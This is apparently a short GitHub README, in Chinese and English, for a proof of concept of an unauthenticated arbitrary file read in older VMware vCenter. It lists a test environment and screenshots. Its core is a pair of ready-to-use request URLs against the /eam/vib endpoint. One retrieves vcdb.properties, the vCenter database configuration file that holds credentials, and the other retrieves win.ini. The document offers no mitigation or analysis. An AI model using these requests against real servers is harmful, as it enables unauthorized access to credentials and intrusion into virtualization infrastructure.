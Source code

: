# VMware vCenter 低版本存在未授权任意文件读取漏洞
# Arbitrary File Read vulnerability in VMware vCenter(Unauthenticated)

![](./vmware.gif)

## Poc from:
https://twitter.com/ptswarm/status/1316016337550938122

e.g.

```
https://www.jas502n.com/eam/vib?id=C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx\vcdb.properties
https://www.jas502n.com/eam/vib?id=C:\Windows\win.ini
```

测试环境：

`VMware vFabric tc Runtime 2.9.7.RELEASE/7.0.55.A.RELEASE`
![](info.png)

![](./vmware.png)
![](./vsphere-client.png)
![](./eam_vib.png)
![](./win.png)
![](./eam_vib_burp.png)
